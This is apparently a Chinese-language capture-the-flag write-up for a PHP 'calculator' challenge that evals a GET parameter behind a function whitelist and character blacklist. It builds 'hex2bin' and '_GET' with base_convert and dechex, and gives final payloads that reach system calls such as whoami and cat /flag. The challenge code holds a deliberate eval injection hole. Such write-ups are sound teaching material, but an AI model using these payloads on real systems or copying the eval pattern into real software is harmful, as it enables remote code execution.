


源码

```php
<?php
error_reporting(0);
//听说你很喜欢数学，不知道你是否爱它胜过爱flag
if(!isset($_GET['c'])){
    show_source(__FILE__);
}else{
    //例子 c=20-1
    $content = $_GET['c'];
    if (strlen($content) >= 80) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $content)) {
            die("请不要输入奇奇怪怪的字符");
        }
    }
    //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);  
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
    //帮你算出答案
    eval('echo '.$content.';');
}
```

看了一下题意，应该是要通过这些数学函数，构造出一个恶意的请求。很明显用到的核心方法是 `base_convert`

比如这个传参

```
?c=base_convert(6968,10,30)
```



先思考攻击的 payload，最有效的无参 RCE

```php
exec(getallheaders(){1})
```

```php
base_convert(696468,10,36) => "exec"
$pi(8768397090111664438,10,30) => "getallheaders"
exec(getallheaders(){1})
//操作xx和yy，中间用逗号隔开，echo都能输出
echo xx,yy
```

还有一种思路是构造

`c=($_GET[a])($_GET[b])`

完整的payload如下：
`c=($_GET[a])($_GET[b])&a=system&b=cat /flag`

由于参数只检查c，所以a和b可以随便操作，接下来问题的关键就是，如何绕过c的检查。

白名单用来检测c中出现的变量名，因此a，b不能出现，但是可以用白名单中的值，比如abs，cos。GET中括号和和GET本身都不能出现，中括号可以用{}替代，因此这道题的核心就是构造_GET。构造如下：
`base_convert(37907361743,10,36)(dechex(1598506324))`

```php
base_convert(37907361743,10,36)=>"hex2bin"，dechex(1598506324)=>"5f474554",hex2bin("5f474554")=>_GET
```

最后的 payload

```php
/?c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));$$pi{pi}($$pi{abs})&pi=system&abs=whoami
```

